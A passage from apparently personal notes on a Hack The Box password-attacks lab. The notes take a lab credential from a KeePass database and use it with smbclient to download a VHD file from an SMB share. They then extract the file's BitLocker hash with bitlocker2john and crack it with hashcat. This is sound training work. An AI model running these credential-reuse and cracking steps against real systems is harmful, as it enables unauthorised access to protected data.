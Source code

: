     keepassxc
    # open the database file and use the above password
    ```
  
  * From the Keepass database that we found, we get an entry for 'Adm', which includes the creds 'david:gRzX7YbeTcDG7' - we can use this to check the SMB shares discovered initially:

    ```sh
    smbclient -U david \\\\password-attacks-3.htb\\david
    # we get access
    
    dir
    # we have a .vhd file here

    get Backup.vhd

    exit
    ```
  
  * The .vhd file can be further inspected by mounting it; I tried [mounting VHD files in Linux](https://infinitelogins.com/2020/12/11/how-to-mount-extract-password-hashes-vhd-files/) but it did not work:

    ```sh
    sudo apt-get install libguestfs-tools cifs-utils

    sudo mkdir /mnt/win-vhd

    sudo guestmount --add Backup.vhd --inspector --ro -v /mnt/win-vhd
    # mount the vhd file in read-only mode
    ```
  
  * While attempting to mount the .vhd file, we get the prompt 'Enter key or passphrase ("/dev/sda2")' - this also refers BitLocker

  * It seems the VHD file is most likely encrypted with BitLocker - we need to crack the decryption before mounting it:

    ```sh
    bitlocker2john -i Backup.vhd > backup.hashes
    
    less backup.hashes
    # this gives us 4 different hashes
    # we need only backup hash

    grep "bitlocker\$0" backup.hashes > backup.hash

    hashcat -m 22100 backup.hash mut_pass.list -o backup.cracked
    # trying it with shorter wordlist before going for rockyou.txt
    # it works
    ```
  